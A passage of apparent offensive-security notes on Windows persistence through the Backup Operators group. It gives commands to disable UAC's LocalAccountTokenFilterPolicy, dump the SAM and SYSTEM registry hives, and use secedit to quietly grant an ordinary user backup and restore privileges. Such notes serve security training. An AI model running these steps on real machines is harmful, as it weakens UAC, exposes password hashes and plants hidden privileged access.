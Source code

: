 You can enable the group by disabling LocalAccountTokenFilterPolicy of UAC :

```Command Prompt
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Now log back in

Extract SYSTEM and SAM file

```Command Prompt
reg save hklm\system system.bak
reg save hklm\sam sam.bak
```

### 1.2 Special Privileges and Security Descriptors

Backup Operators group have the following privileges assigned by default:

* **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place.
* **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.

We can assign such privileges to any user, independent of their group memberships. To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:

```Command Prompt
secedit /export /cfg config.inf
```

```config.inf
[Unicode]
Unicode=yes
[System Access]
MinimumPasswordAge = 0
MaximumPasswordAge = 42
MinimumPasswordLength = 0
.
.
[Event Audit]
AuditSystemEvents = 0
.
.
[Registry Values]
MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Setup\RecoveryConsole\SecurityLevel=4,0
.
.
[Privilege Rights]
SeNetworkLogonRight = *S-1-1-0,*S-1-5-32-544,*S-1-5-32-545,*S-1-5-32-551
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,user2 <-------- added user2
.
.
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,user2 <------- added user2
SeShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-551
SeTakeOwnershipPrivilege = *S-1-5-32-544
SeUndockPrivilege = *S-1-5-32-544
SeManageVolumePrivilege = *S-1-5-32-544,*S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133
[Version]
signature="$CHICAGO$"
Revision=1
```
